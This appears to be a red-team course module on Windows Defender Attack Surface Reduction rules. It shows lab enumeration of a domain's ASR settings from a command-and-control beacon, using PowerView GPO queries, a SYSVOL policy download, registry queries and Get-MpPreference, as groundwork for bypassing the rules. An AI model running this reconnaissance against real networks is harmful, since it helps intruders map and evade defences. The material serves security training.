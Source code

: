 [Attack Surface Reduction](https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-atp/attack-surface-reduction) (ASR) is a set of hardening configurations that aims to mitigate attack techniques commonly used by attackers.  ASR rules are implemented in LUA and are enforced by Windows Defender.  They are as follows (highlighted in bold are the ones we'll focus on in the module):

-   Block abuse of exploited vulnerable signed drivers
-   Block Adobe Reader from creating child processes
-   **Block all Office applications from creating child processes**
-   **Block credential stealing from the Windows local security authority subsystem (lsass.exe)**
-   Block executable content from email client and webmail
-   Block executable files from running unless they meet a prevalence, age, or trusted list criterion
-   Block execution of potentially obfuscated scripts
-   Block JavaScript or VBScript from launching downloaded executable content
-   Block Office applications from creating executable content
-   **Block Office applications from injecting code into other processes**
-   Block Office communication application from creating child processes
-   Block persistence through WMI event subscription
-   **Block process creations originating from PSExec and WMI commands**
-   Block untrusted and unsigned processes that run from USB
-   **Block Win32 API calls from Office macros**
-   Use advanced protection against ransomware

Many of these rules do work in combination - you could find a bypass to a single rule in isolation, but it may still be blocked by another rule.  The bypasses demonstrated in this module assume that all the highlighted rules are enabled at the same time.

## Enumeration

ASR rules can be enumerated remotely via GPO, from the local registry of a machine to which they're applied, or with PowerShell's Get-MpPreference cmdlet.

### GPO

The first task is to identify the GPO containing the ASR configuration - one possible approach is to search GPOs by name.

beacon> powershell-import /root/tools/PowerView.ps1
beacon> powerpick Get-DomainGPO -Name ASR -Properties GpcFileSysPath

gpcfilesyspath                                                                              
--------------                                                                              
\\redteamops2.local\SysVol\redteamops2.local\Policies\{0047C7A8-63E1-4F60-A981-D5DD7F3F8663}

beacon> ls \\redteamops2.local\SysVol\redteamops2.local\Policies\{0047C7A8-63E1-4F60-A981-D5DD7F3F8663}\Machine

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 554b     fil     11/12/2021 18:02:45   comment.cmtx
 1kb      fil     11/12/2021 18:02:45   Registry.pol

  

Download **Registry.pol** from the GpcFileSysPath and read it with **Parse-PolFile**.

beacon> download \\redteamops2.local\SysVol\redteamops2.local\Policies\{0047C7A8-63E1-4F60-A981-D5DD7F3F8663}\Machine\Registry.pol
[*] Tasked beacon to download \\redteamops2.local\SysVol\redteamops2.local\Policies\{0047C7A8-63E1-4F60-A981-D5DD7F3F8663}\Machine\Registry.pol
[+] host called home, sent: 121 bytes
[*] started download of \\redteamops2.local\SysVol\redteamops2.local\Policies\{0047C7A8-63E1-4F60-A981-D5DD7F3F8663}\Machine\Registry.pol (1588 bytes)
[*] download of Registry.pol is complete

PS C:\Users\Administrator\Desktop> Parse-PolFile .\Registry.pol

KeyName     : Software\Policies\Microsoft\Windows Defender\Windows Defender Exploit Guard\ASR
ValueName   : ExploitGuard_ASR_Rules
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 1

KeyName     : Software\Policies\Microsoft\Windows Defender\Windows Defender Exploit Guard\ASR\Rules
ValueName   : d4f940ab-401b-4efc-aadc-ad5f3c50688a
ValueType   : REG_SZ
ValueLength : 4
ValueData   : 1

  

The first entry is called **ExploitGuard_ASR_Rules** and the ValueData is set to **1**.  This simply indicates that ASR rules are enabled.  Following are each ASR rule donated by its GUID.  d4f940ab-401b-4efc-aadc-ad5f3c50688a is **Block all Office applications from creating child processes.**

These values can be:

-   0 - Disable
-   1 - Block
-   2 - Audit
-   6 - Warn

You can find which OUs (and subsequently which machines) this GPO is applied to with `Get-DomainOU` and the `-GPLink` parameter.  This will only return OUs that the specified GPO GUID in their gplink property.

beacon> powerpick Get-DomainOU -GPLink 0047C7A8-63E1-4F60-A981-D5DD7F3F8663 -Properties DistinguishedName

distinguishedname                           
-----------------                           
OU=2,OU=Workstations,DC=redteamops2,DC=local

beacon> powerpick Get-DomainComputer -SearchBase "LDAP://OU=2,OU=Workstations,DC=redteamops2,DC=local" -Properties SamAccountName

samaccountname
--------------
WKSTN-2$  

  

### Registry

To read from a local registry, simply query **HKLM**:

beacon> reg query x64 HKLM\Software\Policies\Microsoft\Windows Defender\Windows Defender Exploit Guard\ASR

ExploitGuard_ASR_Rules   1

beacon> reg query x64 HKLM\Software\Policies\Microsoft\Windows Defender\Windows Defender Exploit Guard\ASR\Rules

d4f940ab-401b-4efc-aadc-ad5f3c50688a 1
9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2 1
75668c1f-73b5-4cf0-bb93-3ecf5cb7cc84 1
d1e49aac-8f56-4280-b9ba-993a6d77406c 1
92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b 1

  

### PowerShell

beacon> powerpick Get-MpPreference | select -expand AttackSurfaceReductionRules_Ids

75668c1f-73b5-4cf0-bb93-3ecf5cb7cc84
92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b
9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2
d1e49aac-8f56-4280-b9ba-993a6d77406c
d4f940ab-401b-4efc-aadc-ad5f3c50688a

beacon> powerpick Get-MpPreference | select -expand AttackSurfaceReductionRules_Actions

1
1
1
1
1



